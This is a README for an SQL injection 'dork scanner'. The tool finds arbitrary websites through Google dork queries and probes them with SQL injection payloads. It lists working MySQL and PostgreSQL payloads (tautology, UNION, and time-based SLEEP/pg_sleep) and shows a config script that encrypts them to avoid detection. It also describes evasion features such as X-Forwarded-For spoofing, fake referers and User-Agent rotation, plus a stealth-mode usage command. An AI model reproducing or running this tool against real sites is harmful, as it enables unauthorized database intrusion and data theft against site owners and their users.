 # SQLi-Inject  
**Comprehensive SQL Injection Dork Scanner**  

---

## 🔍 Main Features
- **Automatic Google Dorking** - Discover targets using the Google Custom Search API
- **Encrypted Payloads** - Encrypt payloads with Fernet to avoid detection
- **Multithreaded Scanning** - Parallel execution with ThreadPoolExecutor
- **Evasion Mechanisms**:
  - Random User-Agent rotation
  - Dynamic delay with jitter
  - Spoofing X-Forwarded-For header
  - Fake referer
- **Multi-Format Reporting** (JSON/CSV/Console)
- **Intelligent Detection**:
  - Response time analysis
  - Database error pattern matching
  - HTTP status code validation

---

## 🛠️ Installation
1. Clone the repository  
```bash
git clone https://github.com/KnuckleSalt/SQli-Dork
```

2. Install dependencies



pip install -r requirements.txt


---

⚙️ Configuration

Create a file named config.yaml using the following template:

security:
  encryption_key: "base64_32_byte_fernet_key"

payloads:
  mysql:
    - "gAAAAAB..."  # Encrypted MySQL payload
    - "gAAAAAB..."  # Example: ' OR 1=1 --
  postgresql:
    - "gAAAAAB..."  # Encrypted PostgreSQL payload

network:
  proxies:
    http: "http://proxy:port"
    https: "https://proxy:port"
  timeout: 10

endpoints:
  google: "https://www.googleapis.com/customsearch/v1"

credentials:
  api_key: "your_google_api_key"
  cse_id: "your_cse_id"

stealth:
  referers:
    - "https://www.google.com"
    - "https://www.bing.com"
  time_based_threshold: 3.5

performance:
  threads: 15

detection_patterns:
  - "error in your SQL syntax"
  - "Warning: mysql"
  - "PostgreSQL.*ERROR"

🔑 Generate Encryption Key

from cryptography.fernet import Fernet
print(Fernet.generate_key().decode())

🔒 Example Payload Encryption

key = Fernet.generate_key()
cipher = Fernet(key)
encrypted_payload = cipher.encrypt(b"' OR 1=1 -- ").decode()
print(encrypted_payload)

##Example auto generate config.yaml

```bash
from cryptography.fernet import Fernet
import yaml

KEY = Fernet.generate_key()
cipher = Fernet(KEY)

payloads = {
    "mysql": [
        "' OR 1=1 -- ",
        "' UNION SELECT version(),2 -- ",
        "' AND 1=IF(2>1,SLEEP(5),0) -- "
    ],
    "postgresql": [
        "' OR 1=1; -- ",
        "' UNION SELECT NULL,version() -- ",
        "' AND CASE WHEN (1=1) THEN pg_sleep(5) ELSE NULL END -- "
    ]
}

encrypted_payloads = {
    dbms: [cipher.encrypt(p.encode()).decode() for p in payloads[dbms]]
    for dbms in payloads
}

config = {
    'security': {'encryption_key': KEY.decode()},
    'payloads': encrypted_payloads,
    'network': {'timeout': 10, 'proxies': {}},
    'endpoints': {'google': 'https://www.googleapis.com/customsearch/v1'},
    'credentials': {'api_key': 'YOUR_APIKEY', 'cse_id': 'YOUR_CSE'},
    'stealth': {'referers': ['https://google.com'], 'time_based_threshold': 3.5},
    'detection_patterns': [
        r"SQL syntax.*MySQL",
        r"PostgreSQL.*ERROR",
        r"Warning.*mysql_",
        r"unclosed quotation mark"
    ],
    'performance': {'threads': 10}
}

with open('config.yaml', 'w') as f:
    yaml.dump(config, f, default_flow_style=False)

print("Config file generated successfully!")
```


---

🚀 Usage

Basic command:

python scanner.py \
  --dork "inurl:index.php?id=" \
  --max-results 50 \
  --stealth \
  --jitter 0.5 \
  --random-agent \
  --output console

Parameter options:

--dork          Google search query (required)
--site          Filter by domain
--file-type     Filter by file type
--max-results   Maximum number of results (1-100)
--stealth       Enable stealth mode
--jitter        Random delay variation (default: 0.5)
--delay         Base delay between requests (default: 1.0)
--random-agent  Random User-Agent rotation
--output        Report format (console/json/csv)


---

⚠️ Disclaimer

This tool is for educational and legal testing purposes only. Users are fully responsible for their own usage of this tool.


---

🙌 Special Thanks

Thanks to the open source contributors:

synnaulaid - Inspiration for developing security tools and debugging



---

